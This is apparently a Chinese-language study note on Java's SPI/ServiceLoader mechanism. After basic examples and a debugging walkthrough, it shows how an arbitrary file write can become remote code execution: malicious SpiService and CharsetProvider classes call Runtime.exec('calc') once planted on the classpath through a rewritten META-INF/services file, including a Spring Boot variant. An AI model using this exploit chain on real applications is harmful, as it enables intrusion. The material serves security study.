


# Java-SPI学习

## 介绍

SPI全称Service Provider Interface，是Java提供的一套用来被第三方实现或者扩展的接口，它可以用来启用框架扩展和替换组件。 SPI的作用就是为这些被扩展的API寻找服务实现。

-   API （`Application Programming Interface）在`大多数情况下，都是`实现方`制定接口并完成对接口的实现，`调用方`仅仅依赖接口调用，且无权选择不同实现。 从使用人员上来说，API 直接被应用开发人员使用。

-   SPI （`Service Provider Interface）`是`调用方`来制定接口规范，提供给外部来实现，`调用方在调用时则`选择自己需要的外部实现。 从使用人员上来说，SPI 被框架扩展人员使用。


## 简单实现

编写1个接口和2个实现（**需要注意SPI机制的实现类必须有一个无参构造方法**，下面调试的时候会知道为什么）：

```java
package com.summer.SPI;

public interface SpiService {
    public void say();
}

```

```java
package com.summer.SPI;

public class SpiServiceA implements SpiService{

    @Override
    public void say() {
        System.out.println("SpiServiceA say");
    }
}

```

```java
package com.summer.SPI;

public class SpiServiceB implements SpiService{
    @Override
    public void say() {
        System.out.println("SpiServiceB say");
    }
}

```

在classpath下面创建目录`META-INF/services/`，在下面创建文件名是上述接口全限定名的文件，在此文件中写入此接口的实现类的全限定名：


再运行程序（Java的foreach底层实际还是上面Iterator方式的调用，所以直接用迭代器方式也方便断点调试）：

```java
        ServiceLoader<SpiService> serviceLoader = ServiceLoader.load(SpiService.class);
        Iterator<SpiService> iterator = serviceLoader.iterator();
        while (iterator.hasNext()) {
            SpiService spiService = iterator.next();
            spiService.say();
        }
/*        for (SpiService spiService:serviceLoader){
            spiService.say();
        }*/
```

得到结果：

```
SpiServiceA say
SpiServiceB say
```

## 调试

打断点看一下，`next()`方法：


实际调用到了`nextService()`方法，通过反射的方式对`com.summer.SPI.SpiService`写的实现类调用无参构造：

```java
        private S nextService() {
            if (!hasNextService())
                throw new NoSuchElementException();
            String cn = nextName;
            nextName = null;
            Class<?> c = null;
            try {
                c = Class.forName(cn, false, loader);
            } catch (ClassNotFoundException x) {
                fail(service,
                     "Provider " + cn + " not found");
            }
            if (!service.isAssignableFrom(c)) {
                fail(service,
                     "Provider " + cn  + " not a subtype");
            }
            try {
                S p = service.cast(c.newInstance());
                providers.put(cn, p);
                return p;
```

## 写文件rce

其实就是利用SPI机制来写文件rce（如果存在任意写的话）

首先写一个恶意类：

```java
package com.summer.SPI;
import java.io.IOException;

public class SpiEvil implements SpiService {

    @Override
    public void say(){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

编译成class之后利用任意写，写到classpath下面。

然后再利用任意写把`META-INF/services/com.summer.SPI.SpiService`给改了：

```
com.summer.SPI.SpiEvil
```

再去触发功能点就可以实现rce：




## 利用：SpringBoot任意写的rce

学习threedr3am师傅的文章，首先写恶意类：

```java
package com.example.springboot;

import java.io.IOException;
import java.nio.charset.Charset;
import java.nio.charset.spi.CharsetProvider;
import java.util.HashSet;
import java.util.Iterator;

public class SpiEvil extends CharsetProvider {
    @Override
    public Iterator<Charset> charsets() {
        return new HashSet<Charset>().iterator();
    }

    @Override
    public Charset charsetForName(String charsetName) {
        //因为Charset会被缓存，导致同样的charsetName只能执行一次，所以，我们可以利用前缀触发，后面的内容不断变化就行了，甚至可以把命令通过charsetName传入
        if (charsetName.startsWith("feng")){
            try {
                Process calc = Runtime.getRuntime().exec("calc");
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        return Charset.forName("UTF-8");
    }
}

```

编译后利用任意写，写入classpath，然后在classpath下面写`target/classes/META-INF/Services/java.nio.charset.spi.CharsetProvider`，里面是恶意类的全名：

```
com.example.springboot.SpiEvil
```

触发：




